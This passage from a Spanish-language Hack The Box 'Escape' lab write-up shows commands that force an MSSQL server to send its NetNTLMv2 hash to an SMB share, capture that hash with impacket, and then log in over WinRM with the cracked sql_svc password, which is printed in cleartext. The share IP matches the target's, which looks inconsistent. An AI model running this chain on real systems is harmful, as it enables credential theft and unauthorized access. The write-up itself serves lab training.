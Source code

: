 Este artículo muestra como ejecutando un pequeño comando en la base de datos podemos conseguir el hash netntlmv2 del usuario que gestiona la base de datos, es muy sencillo.

```bash
EXEC master.sys.xp_dirtree '\\10.10.11.202\Public',1, 1
```

Y a su vez con `smbserver.py` capturamos el hash.

```bash
sudo impacket-smbserver $(pwd) filetransfer -smb2support
```

![](/assets/images/HTB/Escape-HackTheBox/7.webp)

![](/assets/images/HTB/Escape-HackTheBox/8.webp)

Tras obtener el hash me lo copio en un archivo y lo craqueo usando John The Ripper.

![](/assets/images/HTB/Escape-HackTheBox/9.webp)

Consigo craquear el hash del usuario sql_svc y las contraseña es REGGIE1234ronnie

Al tener credenciales válidas intento conectarme a la máquina a través de WinRM usando la herramienta evil-winrm.

```bash
ruby evil-winrm.rb -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
```

Tras desplazarme por los directorios encuentro el usuario Ryan.Cooper, por lo que supongo que el siguiente paso es migrarme a este usuario.
